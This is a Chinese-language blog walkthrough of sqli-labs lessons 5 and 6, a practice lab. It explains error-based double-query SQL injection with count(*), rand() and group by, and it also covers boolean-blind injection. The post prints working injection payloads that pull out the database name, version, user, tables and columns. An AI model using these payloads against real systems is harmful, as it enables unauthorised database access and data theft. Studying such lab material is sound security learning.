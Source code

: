 ```yaml
---
layout: post
title: sqli-labs Lesson-5-6 双重注入
subtitle: 
date: 2020-01-04
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
    - ctf
---
```




## preface

这篇文章是 sqli-labs 的第五和第六关题解，都涉及到了基于报错的双重注入



## 开始做题



先按部就班吧，我们先找注入点，输入 `'` 后报错，根据报错信息确定了可能存在字符型注入

![error](https://i.loli.net/2020/01/06/7aAQW2wF85KdSXr.png)



然后就尝试闭合咯，屏幕输出 “ You are in ”

![you_are_in](https://i.loli.net/2020/01/06/C5NHWZ1mXP4ShEG.png)



接下去用 `order by` 爆破字段的个数，4 的时候报错，所以只有三个字段

![column_num](https://i.loli.net/2020/01/06/vexXI54PQiGTRmW.png)



再来看看会不会有字段显示出来，用 union 查询



不显示东西。。如果有记录的话就会显示 “you are in” ，没记录的话直接就报错了，这里我没办法了，上网看了别人的解决方案，学习到了一波新的知识然后自己用不同方法做了一遍



这种基于报错的但是页面又不显示出表的字段的 sql 注入都可以通过 sql 聚合函数和分组来回显报错信息，简单来说就是用 `count(*)` 、`rand()` 以及 `group by` 三个函数就可以将我们想要获取的信息通过报错的方式显示出来，具体原理以后再~~补~~（咕），不过这种方法只能用 limit 来一条一条输出，不能用 group_concat 来拼接



看下下面这个句子，这就是个标准的报错公式，rand() 函数生成一个 0-1 的随机数，floor() 的功能是向下取整，因此 floor(rand(0)*2)  就是 0 或者 1 ，看报错信息，这里说 entry 重复了

```sql
mysql> select count(*),floor(rand(0)*2) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key' 
```



我们用 concat 连接一下试试会发生什么

```sql
mysql> select count(*),concat('------',(floor(rand(0)*2))) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '------1' for key 'group_key' 
```



可以看到，报错信息被改变了，也就是说我们的自定义字符串和原本报错的 entry 给拼接在了一起，我们就是利用这个特点来进行注入的，接下来就查询一下这张表所在的数据库

```sql
' union select 1, count(*),concat(database(),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![encode-error](https://i.loli.net/2020/01/06/ufxTUHknicoAYV8.png)



报错了，肯定是编码的问题。在网上查到解决办法，用 `binary()` 函数转化一下即可，然后就得到了数据库的名字

```sql
' union select 1, count(*),concat(binary(database()),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![database](https://i.loli.net/2020/01/06/hHFa2yRYSW3bGdz.png)



> 这里分享一下网上一位老哥的做法，有点啰嗦，但是很巧妙，用 substr() , ascii() 等函数将数据库名字分来，一位意味猜，这算是基于布尔的盲注了



根据报错与否判断出数据库的长度

```sql
' or length(database())=8 --+
```

再根据 ASCII 字符的大小比较来判断数据库每一位是什么，就这样一位一位硬核爆出来，感觉思路很好，万一有些函数被禁了就可以尝试一下这种方法

```sql
' or substr(database(),2,1)='e' --+
```



再查询相关信息，平台，数据库版本等

```sql
' union select 1, count(*),concat_ws('-', binary(@@version_compile_os), user(), version(),floor(RAND(0)*2))a from information_schema.tables group by a--+
```

![all-info](https://i.loli.net/2020/01/06/lpLwR2C8r6qvGcg.png)



接下去就爆出表的名字，但是报错了，说子查询的结果多于 1 列

```sql
' union select 1, count(*),concat_ws('-', (select table_name from information_schema.tables where table_schema='security'),floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![table](https://i.loli.net/2020/01/06/d2HEZam7RnJs1Ml.png)



想起来，这种基于聚合函数的报错只能用 limit 一条一条看，那就改一下，一个一个查，查到三张表，`uagents`、`users` 、`emails` 和 `referers` 

```sql
' union select 1, count(*),concat_ws('-', (select table_name from information_schema.tables where table_schema='security' limit 0, 1),floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![tables](https://i.loli.net/2020/01/06/VZarthxO6PH1Ggi.png)



表名应该就是 users 了，就算不是也可以一个一个查。知道数据库和表名，字段的个数也知道了，接下去就判断字段的名称了，先用 count 查到有 3 个字段（废话，前面就已经知道了，只是提供一种方法）

```sql
' union select 1, count(*),concat_ws('-', (select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 1, 1), floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![columns](https://i.loli.net/2020/01/06/tVY7xLiRfT2lKEq.png)



然后就一个一个爆字段，得到所有的字段名和在表中的顺序，到这里也就将所有的信息都爆出来了，结束注入，第六题是一样的，就是将单引号变成双引号而已



## reference



https://www.jianshu.com/p/8c2343705100

https://blog.51cto.com/obnus/532116

https://blog.csdn.net/baidu_37576427/article/details/76146974